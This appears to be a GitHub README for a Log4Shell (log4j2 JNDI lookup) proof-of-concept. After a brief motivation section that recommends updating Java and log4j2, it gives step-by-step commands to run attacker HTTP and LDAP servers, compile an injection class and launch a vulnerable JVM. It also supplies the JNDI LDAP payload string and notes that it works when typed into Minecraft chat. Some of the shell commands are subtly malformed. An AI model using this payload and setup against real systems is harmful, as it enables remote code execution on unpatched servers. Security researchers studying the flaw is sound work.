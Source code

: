 # log4j2-banter

## Motivation
<p>This fundamental vulnerability was reported by [CVE-2018-3149](https://nvd.nist.gov/vuln/detail/CVE-2018-3149) and patched by [this article. (8u121 Release Notes)](https://www.oracle.com/java/technologies/javase/8u121-relnotes.html)</p>
<p>However, the logging library for java called log4j2 had [JNDILookup](https://github.com/apache/logging-log4j2/blob/20f9a97dbe5928c3b5077bcdd2a22ac92e941655/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/JndiLookup.java), which allowed access to protocols such as LDAP, which allowed code injection in older java versions.</p>
<p>Patched versions of java can prevent code injection, but `JNDILookup` makes request to ldap server, which can lead to IP leaks.</p>
<p>The solution is to update **Java** and **log4j2** versions.</p>

## Running
0. Install requirements
```
# system requirements => requirements.txt (gradle is not per say required, use any building tool with same output)
# npm requirements => npm-requirements.txt
$ cd http-server && npm install && cd ../ldap-server && npm install
```
1. run `http-server` and `ldap-server` both
```
$ DATE=$(date +%H-%M-%S_%d-%m-%Y) &&\
	   cd http-server && node index.js 2>&1 >$DATE_http-server.log & &&\
	   cd ldap-server && node index.js 2>&1 >$DATE_ldap-server.log &
```
2. Compile Main.java
```bash
# This will generate Main.java - required to code injection .
# OSx
$ ./java-single-compile Main.java
# Linux 
$ javac Main.java
```
3. Start jvm with parameters
```bash
# You can still use log4j-client in repo for internal testing.
$ cd log4j-client &&\
		gradle jar &&\
		java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar build/libs/log4j-client-1.0-SNAPSHOT.jar
# Or run other application, com.sun.jndi.ldap.object.trustURLCodebase=true required for code injection, otherwise it will only request to ldap server.
$ java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar <javafile.jar>
```
4. Send `${jndi:ldap://127.0.0.1:3001/}` to any parameters as the payload
(In minecraft, just chatting this will work if exploit's working.)

## References
- https://github.com/apache/logging-log4j2/pull/608
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://github.com/NCSC-NL/log4shell
- https://github.com/ilsubyeega/log4j2-exploits/
- https://raw.githubusercontent.com/ferderplays/Log4j_exploit/main/Exploit.java

## License [GPL3]
See License in LICENSE
